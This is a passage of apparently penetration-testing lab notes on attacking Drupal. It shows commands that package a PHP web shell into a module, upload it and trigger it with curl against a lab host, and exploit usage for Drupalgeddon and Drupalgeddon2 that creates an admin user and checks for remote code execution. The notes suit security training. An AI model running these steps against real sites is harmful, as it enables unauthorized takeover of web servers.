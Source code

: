 3. **Repackage Module**:

   ```bash
   mv shell.php .htaccess captcha/
   tar cvf captcha.tar.gz captcha/
   ```

4. **Upload & Trigger**:

   * Install via: `Admin > Extend > Install new module`
   * Trigger:

     ```bash
     curl http://drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
     ```

## 🧨 Drupalgeddon Exploits

### 1. **Drupalgeddon (CVE-2014-3704)**

* **Type**: Pre-auth SQL Injection → Add admin user
* **Affected**: Drupal 7.0–7.31
* **Fix**: 7.32
* **Exploit Usage**:

  ```bash
  python2.7 drupalgeddon.py -t http://target -u hacker -p pwnd
  ```
* **Outcome**: Creates admin user, then login and execute previous PHP Filter RCE methods.

### 2. **Drupalgeddon2 (CVE-2018-7600)**

* **Type**: **Unauthenticated Remote Code Execution (RCE)**
* **Affected Versions**:

  * Drupal 7.x < 7.58
  * Drupal 8.x < 8.3.9, < 8.4.6, < 8.5.1

#### 🧪 Exploitation Process

1. **Check if Vulnerable**:

   * Run:

     ```bash
     python3 drupalgeddon2.py
     ```

   * Input target:
     `http://drupal-dev.inlanefreight.local/`

   * Validate with:

     ```bash
     curl -s http://drupal-dev.inlanefreight.local/hello.txt
     ```
